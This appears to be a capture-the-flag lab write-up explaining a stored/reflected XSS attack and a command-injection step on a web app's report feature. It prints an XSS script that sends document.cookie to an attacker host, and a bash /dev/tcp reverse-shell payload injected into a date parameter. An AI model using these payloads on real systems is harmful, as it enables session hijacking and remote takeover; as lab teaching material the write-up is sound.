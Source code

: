 
### **Why Inject It in User-Agent and Below fname?**
You needed to insert the script in **two places** in Burp Suite because:

#### **1. Injecting in User-Agent** (HTTP Header)
- Some web applications **log** the `User-Agent` string (browser type).
- If an **admin** views these logs in their browser **without sanitizing input**, your script **executes in their session**, stealing their cookies.
- Example: If an admin checks logs in a vulnerable **admin panel**, the script runs in **their browser**, sending their session to you.

#### **2. Injecting in fname (Form Data)**
- If the application **reflects** form inputs in the response (e.g., showing `fname` on a webpage), the script runs if the page doesn’t properly escape HTML.
- Example: If `fname` is displayed like:
  ```html
  <p>First Name: <script>document.location = "http://10.10.11.6:7777/?c=" + document.cookie;</script></p>
  ```
  - The victim's browser **sees the script as part of the page** and **executes it**.

---

### **Summary: Why Both Places?**
- **User-Agent** → Targets logs viewed by **admins or security teams**.
- **fname (Form Field)** → Targets **users** if input is displayed on a webpage.

I tested both methods to see which **vulnerability** exists in the app (Reflected or Stored XSS).

# /dashbaord

Once we got the cookie we can use the DevTools and insert the cooke in **is_admin** and then refresh the page. 

We don't get much from **/dashboard** page other then a button **Generate Report**. I clicked on it and the same as before, we can see something is being sent over and it says "
Systems are up and running!"

# BurpSuite it is (AGAIN)

Doing the same as before but this time going for a reverse shell. Why Reverse shell?
1. **Identified Command Injection**: Tested with `sleep 1` and `sleep 2` in the repeater, confirming you could delay server response, indicating command execution.
2. **Confirmed Reverse Shell Possibility**: Since command injection was possible, you could execute a reverse shell by leveraging outbound connections.
3. **Exploit with Reverse Shell**: Used `curl` to execute a reverse shell payload from your server to gain interactive access.

This process confirmed command injection and led to successfully using a reverse shell using:

### **Command Breakdown:**
```bash
date=2023-09-15; bash -c 'bash -i >%26 /dev/tcp/10.10.11.6/7777 0>%26 1'
```
